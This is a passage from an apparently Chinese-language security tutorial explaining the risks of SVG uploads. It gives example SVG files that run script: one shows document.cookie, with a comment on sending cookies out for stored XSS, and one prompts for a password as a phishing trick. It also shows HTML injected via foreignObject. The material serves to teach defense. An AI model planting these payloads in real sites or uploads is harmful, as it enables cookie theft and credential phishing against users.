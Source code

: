 ### <a name="chapter-four-one" id="chapter-four-one"></a>4.1 跨站脚本（XSS）

> [返回目录](#chapter-one)

SVG 可通过 `<script>` 元素执行 JavaScript 代码。

所以，如果开放了 SVG 上传，那么会存在 XSS （跨站脚本）安全风险。

> 01-xss.svg

```xml
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="black" />
  <!-- 这种操作，可以在 SVG 中直接执行 Script，从而通过 Ajax 将同域的 cookie 投出去，造成存储型 XSS -->
  <script>alert(document.cookie)</script>
</svg>
```

注：如果在 Chrome 上通过 `<img />` 标签引入，并不会触发攻击。但是，如果单独在 Tab 上打开图片，是会触发攻击的！！

又或者，我们可以通过 SVG，让用户在查看图片的时候，假装丢失了密码，需要重新输入：

```xml
<svg xmlns="http://www.w3.org/2000/svg" version="1.1">
  <circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="black" />
  <script>
    const passwd = prompt('输入密码继续');
    console.error('passwd: ', passwd);
    alert(`感谢你的密码：${passwd}`);
  </script>
</svg>
```

### <a name="chapter-four-two" id="chapter-four-two"></a>4.2 HTML 注入

> [返回目录](#chapter-one)

SVG 是基于 XML 的矢量图，没法简单将 HTML 内容放到里面。

所以，SVG 提供了 `<foreignObject>` 元素，用来包含其他 XML 命名空间的元素。

这一部分数据很可能采用 （X）HTML 形式。

> 02-html-injection

```xml
<svg viewBox="0 0 200 200" xmlns="http://www.w3.org/2000/svg">
  <style>
    div {
      background: black;
      color: pink;
      font: 18px serif;
      width: 100px;
      height: 100px;
      overflow: auto;
    }
  </style>

  <foreignObject x="20" y="20" width="100" height="100">
    <div xmlns="http://www.w3.org/1999/xhtml">
      <a href="https://www.kdocs.cn">点击这里</a>
      <p>超好看的内容等你来喔~</p>
    </div>
  </foreignObject>
</svg>
```

